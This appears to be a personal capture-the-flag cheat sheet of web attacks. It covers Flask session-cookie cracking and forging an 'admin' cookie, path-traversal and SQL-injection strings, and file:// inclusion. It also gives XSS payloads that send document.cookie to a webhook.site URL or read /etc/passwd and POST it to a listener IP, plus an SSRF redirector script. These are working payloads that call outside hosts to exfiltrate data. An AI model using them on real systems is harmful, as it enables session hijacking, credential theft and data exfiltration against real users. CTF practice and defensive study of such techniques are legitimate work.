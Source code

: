 #### JWT-Tokens:
https://jwt.io/
https://github.com/Paradoxis/Flask-Unsign 

```shell
$ flask-unsign --unsign --cookie 'eyJ1c2VybmFtZSI6ImlvIn0.Y7K3hg.H8hfeerAjxxCjOU9zvIdCPUH1Uo'

[*] Session decodes to: {'username': 'io'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2176): -----BEGIN PRIVATE KEY-----.m2
[*] Attempted (2560): /-W%/gister your app with Twi
[*] Attempted (4480): 5#y2LF4Q8zd2029436f75c77961a8*
[*] Attempted (25088): -----BEGIN PRIVATE KEY-----d98
[+] Found secret key after 35712 attemptseveloper Pre
'This is an UNSECURE Secret. CHANGE THIS for production environments.'

$ flask-unsign --sign --cookie "{'username': 'admin'}" --secret 'This is an UNSECURE Secret. CHANGE THIS for production environments.'

eyJ1c2VybmFtZSI6ImFkbWluIn0.Y7M8Eg.37vJZ3ku6MkHGfcShVXQElTzSmE
```


#### Path-Traversal
Try 
```
../
..%2f
..%2f..%2f
```
https://github.com/omurugur/Path_Travelsal_Payload_List/blob/master/Payload/Deep-Travelsal.txt

#### Tips
Look for cookies 
/Console


#### Log4J
JNDI-Server, download and make
https://github.com/mbechler/marshalsec 

![[23_01_08_65gft.png]]


### Parameters in Requests python
```python
url = "http://localhost:80/" 
params = { 
	"a": "flag", 
	"b": "flag" 
} 
response = requests.get(url, params=params) 
# = http://localhost:80/?a=flag&b=flag 
response = requests.get(url, data=params) 
# = http://localhost:80/ Content-Type: application/x-www-form-urlencoded, body: a=flag&b=flag 
response = requests.get(url, json=params) 
# = http://localhost:80/ Content-Type: application/json, body: {"a":"flag","b":"flag"} 
response = requests.get(url, files={"file": open("file.txt", "r"))}) # = http://localhost:80/ Content-Type: multipart/form-data, body: fil-innhold på multipart/form-format
```


### Make http requests to a website
https://webhook.site

```html
<script>fetch('https://webhook.site/25361894-8e43-4d9d-802b-4499aa474b22').then(response => response.json()).then(json => console.log(json));</script>
```

```html
<script>fetch('https://webhook.site/25361894-8e43-4d9d-802b-4499aa474b22', {method:'POST', body: JSON.stringify({data:document.cookie})});</script>
```
```html
<script>fetch('https://webhook.site/25361894-8e43-4d9d-802b-4499aa474b22/' + document.cookie)</script>
```


## SQL-Injection 
#### XPATH for INSERT-statement
![[sql_injection_insert.pdf]]


Finding table names
```mysql
UNION SELECT table_name FROM information_schema.tables--
```
Finding column names
```mysql
UNION SELECT column_name FROM information_schema.columns--
```




GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.
https://gtfobins.github.io/

### Local File Inclusion
```
file:///flag.txt
file://host/flag.txt
```

### XSS
```html
# upload file
<script>function downloadFile(url, filename) {var xhr = new XMLHttpRequest();xhr.open('GET', url, true);xhr.responseType = 'blob';xhr.onload = function () {if (xhr.status === 200) {var blob = new Blob([xhr.response], { type: 'application/octet-stream' });var link = document.createElement('a');link.href = window.URL.createObjectURL(blob);link.download = filename;link.style.display = 'none';document.body.appendChild(link);link.click();document.body.removeChild(link);}};xhr.send();}downloadFile('http://10.10.14.142:8000/shell.html', 'test');</script>


# RETRIEVE FILE
<script>x = new XMLHttpRequest;x.onload = function () {var encodedContent = btoa(this.responseText);var xhttp = new XMLHttpRequest();xhttp.open('POST', 'http://10.10.14.142:8001/receive_data', true);xhttp.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');xhttp.send('data=' + encodeURIComponent(encodedContent));};x.open('GET', 'file:///etc/passwd');x.send();</script>
```


### Bypass localhost with a domain redirection
| Domain                       | Redirect to |
| ---------------------------- | ----------- |
| localtest.me                 | `::1`       |
| localh.st                    | `127.0.0.1` |
| spoofed.[BURP_COLLABORATOR]  | `127.0.0.1` |
| spoofed.redacted.oastify.com | `127.0.0.1` |
| company.127.0.0.1.nip.io     | `127.0.0.1` |


### SSRF Redirector
```python
#!/usr/bin/env python3

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("""
Usage: {} <port_number> <url>
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(307)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```
When someone connects to port 4444, they get redirected to the url
##### Usage
```sh
python3 fuckoff.py 4444 'http://localhost:1337/debug/environment'
```

